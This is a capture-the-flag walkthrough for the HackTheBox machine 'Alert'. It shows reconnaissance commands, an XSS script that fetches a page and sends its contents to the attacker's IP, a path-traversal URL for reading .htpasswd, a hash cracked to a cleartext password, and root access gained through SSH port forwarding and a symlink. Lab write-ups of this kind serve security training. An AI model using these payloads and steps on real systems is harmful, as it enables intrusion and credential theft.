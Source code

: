 

1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png)

2.  Open **HTTP://alert.htb:80**

![](images/media/image2.png)

**INFO:** According to title Alert, it should be XSS vulnerability

[SUBDOMAIN FUZZ]

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> ![](images/media/image3.png)

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**

![](images/media/image4.png)

2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP

![](images/media/image5.png)

**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

[\<script\>]{.mark}

[fetch(\"http://alert.htb/index.php?page=messages\")]{.mark}

[.then(response =\> response.text()) // Convert the response to
text]{.mark}

[.then(data =\> {]{.mark}

[fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));]{.mark}

[})]{.mark}

[.catch(error =\> console.error(\"Error fetching the messages:\",
error));]{.mark}

[\</script\>]{.mark}

- Upload to markdown website

![](images/media/image6.png)

Result

![](images/media/image7.png)

Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001

![](images/media/image8.png)

4.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>

![](images/media/image9.png)

5.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**

![](images/media/image10.png)

Right click -\> copy link

6.  ![](images/media/image11.png)![](images/media/image12.png)

7.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**

![](images/media/image13.png)

8.  After you click on SEND, you'll get the displayed in Kali VM, the
    **[HASH Password]{.mark}**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

![](images/media/image14.png)

9. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>

![](images/media/image15.png)

10. Create file **alert.hash** and paste hash in it

11. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

![](images/media/image16.png)

-Login with **User:** albert **Password:** manchesterunited and display
**[user.txt FLAG]{.mark}**

RUN: cat user.txt

**[PRIVILEGE ESCALATION]{.underline}**

12. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh

![](images/media/image17.png)

13. On server RUN: **./linpeas.sh**

- **Port 8080 is open**

![](images/media/image18.png)

Look for interesting paths, like **/opt/ [(NEEDED in STEP 19)]{.mark}**

![](images/media/image19.png)

14. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**

![](images/media/image20.png)

15. Firefox access **127.0.0.1:8080**

![](images/media/image21.png)

16. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission

![](images/media/image22.png)

17. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**

![](images/media/image23.png)

18. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**

![](images/media/image24.png)

[Root.txt FLAG]{.mark}
